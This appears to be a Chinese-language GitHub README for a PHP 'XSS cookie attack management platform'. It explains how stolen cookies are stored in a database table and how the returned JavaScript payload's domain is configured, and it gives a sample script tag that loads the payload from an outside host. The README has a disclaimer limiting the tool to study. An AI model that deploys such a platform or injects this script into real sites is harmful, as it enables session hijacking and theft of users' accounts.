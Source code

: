 # xss
php写的个人研究测试用的  xss cookie 攻击管理平台,开源出来

<img src="https://github.com/keyus/xss/xss_demo.png" />

<h1>仅用于学习交流，禁止用于非法行为，后果自付
</h1>
<p>
数据库里面只有一张表 tu_message 用于存储cookie,自行建行立数据库，导入表
</P>


<p>
config.php  配置后台登陆用户名与密码,与mysql数据库用户名，密码。
index.php   为xs返回的js原码,自行配置js跨站请求的域名
</p>


<h2>本地测试</h2>
<code>
&lt;script src="//xs.com"&gt;&lt;/script&gt;
</code>


